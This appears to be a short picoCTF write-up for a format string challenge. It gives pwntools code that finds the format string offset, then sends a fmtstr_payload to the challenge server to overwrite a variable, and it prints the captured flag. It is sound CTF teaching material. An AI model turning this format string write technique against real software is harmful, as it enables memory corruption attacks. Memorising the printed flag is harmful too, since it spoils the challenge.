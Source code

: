 ```yaml
---
ai_date: '2025-04-27 05:29:18'
ai_summary: Format string attack exploited to leak and overwrite memory with the flag
ai_tags:
- fmt-str
- rop
- buffer-overflow
created: 2024-08-07T23:48
updated: 2024-08-07T23:57
---
```


Simple application of format string attack.
## Offset

```python
from pwn import *

elf = context.binary = ELF('./vuln')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info(f"{offset=}")
```

## Format String Attack

```python
info(f"{elf.symbols['sus']=}")

p = remote('rhea.picoctf.net', 49852)
p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
info(p.recvall().decode())
p.close()
```

```flag
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```
